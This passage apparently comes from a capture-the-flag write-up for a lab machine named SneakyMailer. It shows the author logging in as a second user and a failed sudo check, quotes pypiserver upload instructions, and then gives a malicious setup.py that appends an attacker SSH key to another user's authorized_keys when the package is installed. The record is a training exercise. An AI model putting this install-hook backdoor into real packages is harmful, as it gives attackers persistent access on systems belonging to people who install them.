 I went back to the machine and tried to switch users to `developer` with the credentials mentioned in the email, and found myself logged in as `developer`. 

```text
developer@sneakymailer:/dev/shm/pypkg$ sudo -l

sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
[sudo] password for developer: 
Sorry, try again.
[sudo] password for developer: 
Sorry, user developer may not run sudo on sneakymailer.
```

I had a weird network hiccup that caused authentication to fail the first try, but then I found out that this user was not able to run commands with `sudo`

[https://pypi.org/project/pypiserver/\#upload-with-setuptools](https://pypi.org/project/pypiserver/#upload-with-setuptools)

> On client-side, edit or create a ~/.pypirc file with a similar content:

```text
    [distutils]
    index-servers =
      pypi
      local

    [pypi]
    username:<your_pypi_username>
    password:<your_pypi_passwd>

    [local]
    repository: http://localhost:8080
    username: <some_username>
    password: <some_passwd>
```

> Then from within the directory of the python-project you wish to upload, issue this command:

```text
    python setup.py sdist upload -r local
```

Then I wrote a setup.py python script as specified at [https://packaging.python.org/tutorials/packaging-projects/\#creating-setup-py](https://packaging.python.org/tutorials/packaging-projects/#creating-setup-py)

```python
import setuptools
import os

if os.getuid() == 1000:
    with open("/home/low/.ssh/authorized_keys", "a") as fh:
        fh.write("\necdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCOQVWrtHkqJofpMNDvUFQlPj7KHcLwMRo5BghGIW8tEAdl2yU0GQ03g2gKnUE9bDGP5NCW6uuEBxSUw73QCYws= zweilos@kali")

long_description = "A sneaky pwn package"

setuptools.setup(
    name="sneakymailer-pwn", # Replace with your own username
    version="0.0.1",
    author="zweilos",
    author_email="zweilos@sneakymailer.htb",
    description="A small pwny package",
    long_description=long_description,
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
```